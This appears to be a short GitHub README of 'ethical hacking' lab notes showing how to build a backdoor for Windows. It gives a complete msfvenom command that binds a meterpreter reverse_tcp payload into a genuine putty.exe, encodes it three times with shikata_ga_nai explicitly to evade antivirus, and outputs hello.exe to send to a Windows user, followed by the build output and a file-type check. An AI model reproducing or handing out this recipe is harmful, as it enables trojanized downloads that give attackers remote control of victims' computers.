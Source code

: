 # Secu_03
### `Ethical hacking`
we are going to use a trapped file to send to a windows user.
`Lab: backdoor`

* Install putty<hr>
program for remote connections, 
download here <a href="https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html">https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html</a>
<hr>
we will link our putty.exe file to our backdoor.

```terminal
msfvenom -a x86 -x /home/samglish/Téléchargements/putty.exe -k -p windows/meterpreter/reverse_tcp lhost=your_Ip_adress lport=3232 -e x86/shikata_ga_nai -i 3 -b "\x00" -f exe -o hello.exe 
```
I explain to you
* msfvenom a metasploit module that will help us to :
<p>--plateform windows, create a backdoor for windows platform</p>
<p>x86/shikata_ga_nai -i 3 -b "\x00", the module that will help us encode our file so as not to be detected by the antivirus, we encoded it 3 times.</p>
<p>the output file will be hello.exe </p>

`result`
```terminal
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
Found 1 compatible encoders
Attempting to encode payload with 3 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 381 (iteration=0)
x86/shikata_ga_nai succeeded with size 408 (iteration=1)
x86/shikata_ga_nai succeeded with size 435 (iteration=2)
x86/shikata_ga_nai chosen with final size 435
Payload size: 435 bytes
Final size of exe file: 1889792 bytes
Saved as: hello.exe
```
let's check if it's the windows exectable.
```terminal
file hello.exe
```
```output
hello.exe: PE32 executable (GUI) Intel 80386, for MS Windows
```
